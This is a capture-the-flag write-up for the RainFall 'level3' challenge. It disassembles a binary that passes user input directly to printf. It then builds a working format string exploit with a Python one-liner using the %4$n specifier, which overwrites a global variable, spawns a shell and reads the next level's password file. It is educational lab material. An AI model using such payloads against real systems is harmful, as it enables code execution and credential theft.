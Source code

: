 [README](../README.md)
# level3

## GDB Disassembly
### Main
```
0x0804851a <+0>:	push   %ebp
0x0804851b <+1>:	mov    %esp,%ebp
0x0804851d <+3>:	and    $0xfffffff0,%esp
0x08048520 <+6>:	call   0x80484a4 <v>
0x08048525 <+11>:	leave  
0x08048526 <+12>:	ret  
```

Function prologue and then call the function v.

### Function v
```
0x080484a4 <+0>:	push   %ebp
0x080484a5 <+1>:	mov    %esp,%ebp
0x080484a7 <+3>:	sub    $0x218,%esp
0x080484ad <+9>:	mov    0x8049860,%eax
0x080484b2 <+14>:	mov    %eax,0x8(%esp)
0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
0x080484be <+26>:	lea    -0x208(%ebp),%eax
0x080484c4 <+32>:	mov    %eax,(%esp)
0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
0x080484cc <+40>:	lea    -0x208(%ebp),%eax
0x080484d2 <+46>:	mov    %eax,(%esp)
0x080484d5 <+49>:	call   0x8048390 <printf@plt>
0x080484da <+54>:	mov    0x804988c,%eax
0x080484df <+59>:	cmp    $0x40,%eax
0x080484e2 <+62>:	jne    0x8048518 <v+116>
0x080484e4 <+64>:	mov    0x8049880,%eax
0x080484e9 <+69>:	mov    %eax,%edx
0x080484eb <+71>:	mov    $0x8048600,%eax
0x080484f0 <+76>:	mov    %edx,0xc(%esp)
0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
0x080484fc <+88>:	movl   $0x1,0x4(%esp)
0x08048504 <+96>:	mov    %eax,(%esp)
0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
0x0804850c <+104>:	movl   $0x804860d,(%esp)
0x08048513 <+111>:	call   0x80483c0 <system@plt>
0x08048518 <+116>:	leave  
0x08048519 <+117>:	ret  
```

- Reads input from the user using `fgets`
- Print the input using printf
- Compare the value stored in `0x804988c` to the value `$0x40`
- if the comparison is equal the program execute a `system` call
- otherwise exit

#### Global variable
```
(gdb) info variables
    0x0804988c  m
(gdb) x/d 0x804988c
    0x804988c <m>:	0
```

## Exploit
We need to find a way to overwrite the value of the variable `m` located at `0x804988c`.
It may be possible to exploit format string vulnerabilities in the `printf` call to overwrite memory.

If we try to input format specifiers in the program, we can see that the input is not properly sanytized.
The program prints the values currently on the stack.
```
level3@RainFall:~$ ./level3
%x %x %x
200 b7fd1ac0 b7ff37d0
```


**`%n` format specificer:**
The %n format specifier in printf does not output anything itself. Instead, it writes the number of characters printed so far to a memory location specified by an argument.
```
printf("%n", &integer_variable);
```
- `%n``: Format specifier to write the number of characters printed so far.
- `&integer_variable`: Pointer to an integer variable where the count of characters printed so far will be written.

**Writing the variable `m`:**
We need to edit the value stored at `0x804988c` with a value of `0x40` = `64` in decimal

- Memory location: `"\x8c\x98\x04\x08"`

We try to input the adress of `m` and print the addresses of the stack using `%x` format.
We see that the address lands on the 4th byte
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x %x %x %x"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit | ./level3 
� 200 b7fd1ac0 b7ff37d0 804988c 20782520 25207825 78252078
```

**Crafting the payload:**
We need to write a total of 64 bytes and use the `%n` format to output to the variable `m`

`%n` will write the size of our input at the address pointed by `%n`. For example, the following input : `AAAA%n`, means that we will write the value 4 (because the size of “AAAA” equals 4) at the address pointed by %n.
- We can specify a postion to read/write on the stack with `%<num>$n`

```
\x8c\x98\x04\x08   AAAAAAAA...AAAA    %4$n
|----------------|------------------|
    Address of        Padding        Format Specifier
    variable m
```

```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3 
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## Ressources
[OWASP - format string attack](https://owasp.org/www-community/attacks/Format_string_attack)
[Exploit 101 - Format Strings - BreakInSecurity](https://axcheron.github.io/exploit-101-format-strings/)
